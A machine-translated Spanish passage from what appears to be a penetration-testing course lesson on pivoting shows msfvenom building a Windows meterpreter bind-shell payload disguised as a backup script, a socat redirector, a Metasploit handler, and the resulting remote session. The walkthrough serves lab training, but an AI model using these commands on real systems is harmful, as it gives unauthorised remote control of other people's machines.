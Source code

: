 # Socat Redirection with a Bind Shell

Similar al redirector de caparazón inverso de nuestro Socat, también podemos crear un redirector Socat Bind Shell. Esto es diferente de los shells inverso que se conectan desde el servidor de Windows al servidor Ubuntu y se redirigen a nuestro host de ataque. En el caso de los shells de enlace, el servidor de Windows iniciará un oyente y se unirá a un puerto en particular. Podemos crear una carga útil de Shell Bind para Windows y ejecutarla en el host de Windows. Al mismo tiempo, podemos crear un redirector SOCAT en el servidor Ubuntu, que escuchará las conexiones entrantes desde un controlador de enlace de Metasploit y reenvía eso a una carga útil de Shell en un objetivo de Windows. La siguiente figura debe explicar el pivote de una manera mucho mejor.

![](https://academy.hackthebox.com/storage/modules/158/55.png)

Podemos crear un shell de enlace usando MSFVENOM con el comando a continuación.

### **Creando la carga útil de Windows**

Redirección de Socat con un caparazón

```
xnoxos@htb[/htb]$ msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 499 bytes
Final size of exe file: 7168 bytes
Saved as: backupjob.exe

```

Podemos comenzar un`socat bind shell`oyente, que escucha en el puerto`8080`y reenvía paquetes al servidor de Windows`8443`.

### **Comenzando el oyente de shell de socat**

Redirección de Socat con un caparazón

```
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

Finalmente, podemos iniciar un controlador de enlace MetaSploit. Este controlador de enlace se puede configurar para conectarse a nuestro oyente de Socat en el puerto 8080 (servidor Ubuntu)

### **Configurar y iniciar el múltiple en BIND**

Redirección de Socat con un caparazón

```
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 10.129.202.64:8080

```

Podemos ver un controlador de enlace conectado a una solicitud de etapa girada a través de un oyente Socat al ejecutar la carga útil en un objetivo de Windows.

### **Establecer la sesión de meterpreter**

Redirección de Socat con un caparazón

```
[*] Sending stage (200262 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:46253 -> 10.129.202.64:8080 ) at 2022-03-07 12:44:44 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```